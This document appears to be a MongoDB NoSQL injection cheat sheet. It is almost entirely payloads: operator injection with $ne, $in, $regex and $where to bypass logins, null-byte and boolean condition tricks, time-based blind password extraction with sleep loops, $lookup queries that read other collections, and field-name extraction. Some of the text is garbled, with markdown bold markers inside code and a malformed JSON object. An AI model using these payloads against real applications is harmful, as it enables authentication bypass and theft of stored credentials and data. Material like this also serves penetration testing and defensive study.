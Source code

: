 ```yaml
---
layout: app
title: "NoSqli"
tags: ["NoSqli","MongoDB"]

---
```



# Validate

```json
'"`{
;$Foo}
$Foo \xYZ
%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
'
\'
%27%7c%7c%31%7c%7c%27 => Must be display '||1||'
'%2b' => Must be display '+'
```

# Conditional Behavior

```javascript
' && 0 && x'
' && 1 && 'x
' && '1'=='2 => False Condition
' && '1'=='1 => True Condition
```

# Null character

When add a null character **MongoDB** may ignore all characters before a null character.

```javascript
'%00 => this.category = 'foo'\u0000' ~~&& this.relasead == 1~~
```

# Operator injection

```javascript
$where
$ne
$in
$regex
{"username":"wiener"} becomes {"username":**{"ne":"invalid"}**}
username=wiener becomes username[$ne]=invalid
```

# Time based

## Detection

```javascript
{"$where":"sleep(5000)"}
```

## Expotation

```jsx
admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}(this)+'
admin'+function(x){if(x.password[0]==="a"){sleep(5000)};}(this)+'
```

# MongoDB

```bash
username[$ne]=1&password[$ne]=1
username=.*<a,b,c,...>&password[$regex]=^<a,b,c,....>
username=.*<a,b,c,...>&password[$ne]=1
```

## Inject

```javascript
{"username":"wiener","password":"peter"} => {"username":{"$ne":"invalid"},"password":{"peter"}}
{"username":"wiener","password":"peter"} => {"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}
/* Guessed User */

```

### `$in`

```javascript
{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}
```

### `$regex`

```javascript
{"username":{"$regex":"**admin**.*"}}
```

### `$where`

```javascript
{
    "$where":"this.username == 'admin'"
    }

admin' && this.password[0] == 'a' || 'a'=='b

admin' && this.password.match(/\d/) || 'a'=='b

{"username":"","password":"","$where":"1==1"}**
```

### `$aggregate`

### Retrieve information from other collection

```javascript
{
	"aggregate":
	[
		{
			"$lookup":{
					"from":"users",
					"localField":"userName",
					"foreignField":"userName",
					"as":"cc-users"
			}
		}
	]
}
```

### Check Information

```javascript
{
	"aggregate":[{
			"$match":{
							"<field>":""
					}
		}]
}
```

### Identify Fields

```javascript
'+%26%26+this.**password**!%3d' => ' && this.**password**!='
```

### Validate password length

```javascript
' && this.password.length < **30** || 'a'=='b
```

### Extract Keys

```javascript
"$where":"Object.keys(this)[0].match('^.{0}**a**.*')"
"$where":"this.**FIELDNAME**.match('^.{0}**a**.*')"
```

